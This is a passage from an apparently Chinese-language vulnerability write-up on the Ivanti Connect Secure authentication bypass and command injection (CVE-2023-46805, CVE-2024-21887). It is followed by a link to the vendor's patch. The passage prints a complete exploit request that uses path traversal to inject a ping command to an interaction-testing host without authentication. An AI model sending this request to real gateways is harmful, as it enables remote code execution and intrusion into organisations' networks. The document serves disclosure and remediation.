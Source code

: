 因而可以构造这样的报文实现未授权命令注入：

```plain
GET /api/v1/totp/user-backup-code/../../license/keys-status/%3bping%20{{interactsh-url}}%3b HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2224.3 Safari/537.36
Connection: close
Accept-Encoding: gzip, deflate
```

# 0x05 漏洞修复

厂商已发布漏洞修复程序，请前往以下地址进行更新。  
[https://forums.ivanti.com/s/article/KB-CVE-2023-46805-Authentication-Bypass-CVE-2024-21887-Command-Injection-for-Ivanti-Connect-Secure-and-Ivanti-Policy-Secure-Gateways?language=en\_US](https://forums.ivanti.com/s/article/KB-CVE-2023-46805-Authentication-Bypass-CVE-2024-21887-Command-Injection-for-Ivanti-Connect-Secure-and-Ivanti-Policy-Secure-Gateways?language=en_US)